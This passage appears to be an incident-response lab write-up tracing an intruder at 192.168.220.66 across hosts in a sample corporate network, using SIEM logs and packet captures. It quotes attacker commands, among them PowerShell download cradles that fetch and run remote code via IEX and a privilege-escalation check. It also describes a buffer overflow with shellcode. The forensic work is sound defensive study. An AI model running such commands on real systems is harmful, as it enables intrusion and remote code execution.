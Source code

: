![Command execution logs showing cmd.exe and PowerShell commands accessing directories and downloading from IP 192.168.220.66.](eaeNf2bjh74I.png)

**Brief Analysis of 192.168.220.66**

From the logs, we identified four hosts on the network segment with corresponding IP addresses and hostnames. The host `192.168.220.66`, previously observed in the logs of `WKST01.samplecorp.com`, confirms the presence of an unauthorized entity in the internal network.

| IP | Hostname |
| --- | --- |
| 192.168.220.20 | DC01.samplecorp.com |
| 192.168.220.200 | WKST01.samplecorp.com |
| 192.168.220.101 | HR01.samplecorp.com |
| 192.168.220.202 | ENG01.samplecorp.com |

The below table is the result of a SIEM query that aimed to identify all instances of command execution initiated from `192.168.220.66`, based on data from `WKST01.samplecorp.com`.

| event\_data.CommandLine.keyword: Descending | beat.hostname.keyword: Descending | Count |
| --- | --- | --- |
| `cmd.exe /Q /c cd 1> \\127.0.0.1\ADMIN$\__1555864304.02 2>&1` | WKST01 | 5 |
| `cmd.exe /Q /c dir 1> \\127.0.0.1\ADMIN$\__1555864304.02 2>&1` | WKST01 | 4 |
| `powershell.exe -nop -w hidden -c $c=new-object net.webclient;$c.proxy=[Net.WebRequest]::GetSystemWebProxy();$c.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX` | WKST01 | 2 |
| `whoami` | WKST01 | 1 |
| `...` | ... | ... |
| `powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.220.66/test.php'); $m = Get-ModifiableService; $m` | HR01 | 1 |

The results suggest that the unauthorized entity has successfully infiltrated the hosts: `WKST01.samplecorp.com` and `HR01.samplecorp.com`.

**HR01.samplecorp.com**

`HR01.samplecorp.com` was investigated next, as the unauthorized entity, `192.168.220.66`, was shown to establish a connection with `HR01.samplecorp.com` at the earliest possible moment in the packet capture.

![Network traffic logs filtered for IP 192.168.220.66, showing UDP and TCP packets with timestamps, source, destination, and protocol details.](fZ7tzgr2fdgZ.png)

Network traffic details suggest a buffer overflow attempt on the service running at port `31337` of `HR01.samplecorp.com`.

![Network traffic logs showing TCP packets between IPs 192.168.220.66 and 192.168.220.101, with hex data indicating a buffer overflow attempt.](HdP8QXQRrlUH.png)

The network traffic was exported as raw binary for further analysis.

![Hex dump showing EIP overwrite with '41' (A) characters and shellcode highlighted, indicating a buffer overflow exploit.](2HCQumTziF7C.png)

The extracted binary was analyzed in a shellcode debugger, `scdbg`.
